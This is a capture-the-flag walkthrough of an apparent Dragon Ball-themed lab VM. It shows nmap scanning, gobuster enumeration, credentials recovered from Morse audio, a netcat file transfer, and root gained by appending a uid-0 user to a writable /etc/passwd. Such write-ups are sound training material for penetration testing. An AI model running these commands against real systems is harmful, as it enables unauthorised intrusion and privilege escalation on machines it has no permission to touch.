





Initial host discovering to get the ip of the machine:

`nmap -sn 10.0.0.11/24`

```shell
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-04 06:07 EDT
Nmap scan report for 10.0.0.1
Host is up (0.00039s latency).
Nmap scan report for 10.0.0.2
Host is up (0.081s latency).
Nmap scan report for 10.0.0.3
Host is up (0.00027s latency).
Nmap scan report for 10.0.0.10
Host is up (0.00020s latency).
Nmap scan report for 10.0.0.11
Host is up (0.00059s latency).
Nmap scan report for 10.0.0.14
Host is up (0.00014s latency).
Nmap scan report for 10.0.0.16
Host is up (0.00015s latency).
Nmap done: 256 IP addresses (7 hosts up) scanned in 2.58 seconds
```

target is 10.0.0.16

nmap scan:

`sudo nmap -sS -sV -O -p- 10.0.0.16`

```shell
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-04 06:12 EDT
Nmap scan report for 10.0.0.16
Host is up (0.00030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:EA:4E:29 (Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=8/4%OT=22%CT=1%CU=37136%PV=Y%DS=1%DC=D%G=Y%M=080027%TM
OS:=5F2934BE%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=107%TI=Z%CI=Z%II=I%
OS:TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5
OS:=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=
OS:FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%
OS:A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0
OS:%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S
OS:=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R
OS:=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N                                                                                                                                                               
OS:%T=40%CD=S)                                                                                                                                                                                                                            
                                                                                                                                                                                                                                          
Network Distance: 1 hop                                                                                                                                                                                                                   
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                                                                                                                                                   
                                                                                                                                                                                                                                          
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                                                                     
Nmap done: 1 IP address (1 host up) scanned in 20.21 seconds          
```

Let's start with the web page.
Gobuster with two list from seclist (raft-large-directories.txt, raft-large-files.txt) will find hidden folders/files:

`gobuster dir -u http://10.0.0.16/ -w /home/user/Desktop/raft-large-files.txt `
```shell                                                                                                                                                                                                                                                                                                                                                                                               
===============================================================                                                                                                                                                                           
Gobuster v3.0.1                                                                                                                                                                                                                           
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                                                                                                                                           
===============================================================
[+] Url:            http://10.0.0.16/
[+] Threads:        10
[+] Wordlist:       /home/user/Desktop/raft-large-files.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/04 08:28:22 Starting gobuster
===============================================================
/login.php (Status: 200)
/index.html (Status: 200)
/.htaccess (Status: 403)
/robots.txt (Status: 200)
/. (Status: 200)
/.html (Status: 403)
/.htpasswd (Status: 403)
/.htm (Status: 403)
/.htpasswds (Status: 403)
/.htgroup (Status: 403)
/.htaccess.bak (Status: 403)
/.htuser (Status: 403)
/.htc (Status: 403)
/.ht (Status: 403)
/.htaccess.old (Status: 403)
/.htacess (Status: 403)
===============================================================
2020/08/04 08:28:24 Finished
===============================================================
```

In robot.txt there a "/find_me", so lets find this file.


Seems to be nothing... Lets check the source of the page:




There is a base64 or similar:
```
aVZCT1J3MEtHZ29BQUFBTlNVaEVVZ0FBQU1nQUFBRElDQVlBQUFDdFdLNmVBQUFIaGtsRVFWUjRuTzJad1k0c09RZ0U1LzkvK3UyMU5TdTdCd3JTaVN0QzhoR2M0SXBMOTg4L0FGanljem9BZ0RNSUFyQUJRUUEySUFqQUJnUUIySUFnQUJzUUJHQURnZ0JzUUJDQURRZ0NzQUZCQURhRUJmbjUrUmwvbk9aTFAxeER6K3g5VTA1cWJoWjFkcjRzSFQyejkwMDVxYmxaMU5uNXNuVDB6TjQzNWFUbVpsRm41OHZTMFRONzM1U1RtcHRGblowdlMwZlA3SDFUVG1wdUZuVjJ2aXdkUGJQM1RUbXB1Vm5VMmZteWRQVE0zamZscE9hdVhKUVRUamxkSHZ0YmxvNDZOUWp5UjV4eUlvZ09CUGtqVGprUlJBZUMvQkdubkFpaUEwSCtpRk5PQk5HQklIL0VLU2VDNkVDUVArS1VFMEYwakJWRS9aSGM4SEhkUHZ1RWQwZVF3N003MWFtelRIaDNCRGs4dTFPZE9zdUVkMGVRdzdNNzFhbXpUSGgzQkRrOHUxT2RPc3VFZDBlUXc3TTcxYW16VEhoM0JEazh1MU9kT3N1RWQwZVFJcWJNNENUcmhKMGhTQkZUWmtDUUdBaFN4SlFaRUNRR2doUXhaUVlFaVlFZ1JVeVpBVUZpSUVnUlUyWkFrQmdJVXNTVUdSQWtCb0lVMFRHZjAxN2UrdTRJVXNScEtSRGtXYzVsdjNEQlN4ZjFqZE5TSU1pem5NdCs0WUtYTHVvYnA2VkFrR2M1bC8zQ0JTOWQxRGRPUzRFZ3ozSXUrNFVMWHJxb2I1eVdBa0dlNVZ6MkN4ZThkRkhmT0MwRmdqekx1ZXdYTGhCL2VGazZjcm84Mm9rc2IzMTNCQkgwdkNITFc5OGRRUVE5YjhqeTFuZEhFRUhQRzdLODlkMFJSTkR6aGl4dmZYY0VFZlM4SWN0YjN4MUJCRDF2eVBMV2R5OFZaTXJwV1BDYjY2YWNEQWdTbUkrNjJTY0RnZ1RtbzI3MnlZQWdnZm1vbTMweUlFaGdQdXBtbnd3SUVwaVB1dGtuQTRJRTVxTnU5c25nOVNPMkFjcmxQN212SXd2OEg3YjVDd1NCVDlqbUx4QUVQbUdidjBBUStJUnQvZ0pCNEJPMitRc0VnVS9ZNWk4UUJENlIvUS9pMURPTFU4OHBkV3FxY3lKSTBlenFubFBxMUNBSWdveXFVNE1nQ0RLcVRnMkNJTWlvT2pVSWdpQ2o2dFFnQ0lLTXFsTnpYQkExYnhZeWk5TU1UbStVeWwvZXNSZ0VpZU0wZzlNYnBmS1hkeXdHUWVJNHplRDBScW44NVIyTFFaQTRUak00dlZFcWYzbkhZaEFranRNTVRtK1V5bC9lc1JnRWllTTBnOU1icGZLWGR5d0dRZUk0emVEMFJxbjhwYzJTUTcxWkFxZlpwd2pTVWJmc2w2cEtoRU1RajV3SUVzeWZxa3FFUXhDUG5BZ1N6SitxU29SREVJK2NDQkxNbjZwS2hFTVFqNXdJRXN5ZnFrcUVReENQbkFnU3pKK3FTb1JERUkrY0NCTE1uNm9xRHVleWpLNmVhcHdFNmNpWjdabkttS29xRHVleWpLNmVhaEFFUVI3VnFYdXFRUkFFZVZTbjdxa0dRUkRrVVoyNnB4b0VRWkJIZGVxZWFoQUVRUjdWcVh1cVFaQ0JncWcvNWpmZjEvRngzUzdXOHE2cHdia1BRUkNFK3hDa01HZnFycW5CdVE5QkVJVDdFS1F3WitxdXFjRzVEMEVRaFBzUXBEQm42cTdLY0ZtY0hzYnBvM1RLMlpGbEFnaHlPQXVDZUlNZ2g3TWdpRGNJY2pnTGduaURJSWV6SUlnM0NISTRDNEo0Z3lDSHN5Q0lONldDM1A0d1RvL3RKTEo2TDhvc0NGSjBueG9FUVpDMkxCMzNxVUVRQkduTDBuR2ZHZ1JCa0xZc0hmZXBRUkFFYWN2U2NaOGFCRUdRdGl3ZDk2bEJrSUdDZE5TcGUyYnZVMzk0Nm5mb3lPazAzN0pmdU1Ba2VGZlA3SDFPSDE3MlBuVk9wL21XL2NJRkpzRzdlbWJ2Yy9yd3N2ZXBjenJOdCt3WExqQUozdFV6ZTUvVGg1ZTlUNTNUYWI1bHYzQ0JTZkN1bnRuN25ENjg3SDNxbkU3ekxmdUZDMHlDZC9YTTN1ZjA0V1h2VStkMG1tL1pMMXhnRXJ5clovWStwdzh2ZTU4NnA5Tjh5MzdoQXZHSGZzUHlPN0pNMmFkNlp3aGkrbWdkODkyd1R3UzU3RUU3WmtjUUJMbm1RVHRtUnhBRXVlWkJPMlpIRUFTNTVrRTdaa2NRQkxubVFUdG1SNUFYQ1hJNzZnKzJBN1dRSFZrNnhFcmxUMVZkRElKNFpFRVFVeERFSXd1Q21JSWdIbGtReEJRRThjaUNJS1lnaUVjV0JERUZRVHl5akJXa1kyRDFjV0xLQitUeXdYNERRUkFFUVlUM0ljaGhFS1FXQkVFUUJCSGVoeUNIUVpCYUVBUkJFRVI0SDRJY0JrRnFzUmJFaVk2Y04zek1UaCtzK28xUy9VNEg2QUpCRUFSQk5pQUlnaURJQmdSQkVBVFpnQ0FJZ2lBYkVBUkJFR1FEZ2lESUtFRnUrTGc2NW5QSzRuVFV1MTdlRlM0d2VqUjF6bzc1bkxJNEhmV3VsM2VGQzR3ZVRaMnpZejZuTEU1SHZldmxYZUVDbzBkVDUreVl6eW1MMDFIdmVubFh1TURvMGRRNU8rWnp5dUowMUx0ZTNoVXVNSG8wZGM2TytaeXlPQjMxcnBkM2hRdU1IazJkczJNK3B5eE9SNzNyNVYzaEFxTkhVK2QwMnN1VUxOTnpJb2h4M1ExWnB1ZEVFT082RzdKTXo0a2d4blUzWkptZUUwR002MjdJTWowbmdoalgzWkJsZWs0RU1hNjdJY3YwbkFoU3hKUVoxRDJuZkMvTEhKWExjQm9ZUVR4NlR2bGVsamtxbCtFME1JSjQ5Snp5dlN4elZDN0RhV0FFOGVnNTVYdFo1cWhjaHRQQUNPTFJjOHIzc3N4UnVReW5nUkhFbytlVTcyV1pvM0laVGdNamlFZlBLZC9MTWtmbE1weVk4bEVxSC9zSlRoODZnaFNBSUxVZ1NQT2kxQ0JJTFFqU3ZDZzFDRklMZ2pRdlNnMkMxSUlnell0U2d5QzFJRWp6b3RRZ1NDMElVckNvS1NjN245TmVzcHplZmNVTTJmbFMvU29EVERrZEMzYWF3U2tuZ2d3OEhRdDJtc0VwSjRJTVBCMExkcHJCS1NlQ0REd2RDM2Fhd1NrbmdndzhIUXQybXNFcEo0SU1QQjBMZHByQktlZnJCQUY0RXdnQ3NBRkJBRFlnQ01BR0JBSFlnQ0FBR3hBRVlBT0NBR3hBRUlBTkNBS3dBVUVBTmlBSXdBWUVBZGp3SHlVRnd2VnIwS3ZGQUFBQUFFbEZUa1N1UW1DQw==
```
so let cyberchef do the work:



ssh:
```sheòò
user@10.0.0.16's password: 
Permission denied, please try again.
```

In the end, it was just a rabbit hole... 
So with a little hint, using the characters from dragonball it was possible to find the folder /bulma:


The audio is a morse code, so with an online tool:




# USER
`trunks:u$3r`

So we can connect with ssh as trunks user.
Now, to transfer the linpeas script  to the target machine:

```bash
BEFORE
TARGET:
nc -l -p 1234 > linpeas.sh

AFTER
HOST:
nc -w 3 10.0.0.16 1234 < /home/user/Desktop/linpeas.sh 
```

Interesting result from the enumeration:



Since we can write on passwd, we can add a user with root priviledge and get the root:
```shell
runks@Vegeta:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
trunks:x:1000:1000:trunks,,,:/home/trunks:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin

trunks@Vegeta:~$ perl -le 'print crypt("new_password","aa")'
aaKOckQlVVVuI
trunks@Vegeta:~$ echo "Baby:aaKOckQlVVVuI:0:0:root_user:/root:/bin/bash" >> /etc/passwd
trunks@Vegeta:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
trunks:x:1000:1000:trunks,,,:/home/trunks:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin

Baby:aaKOckQlVVVuI:0:0:root_user:/root:/bin/bash
trunks@Vegeta:~$ su Baby
Password: 
root@Vegeta:/home/trunks# 
```
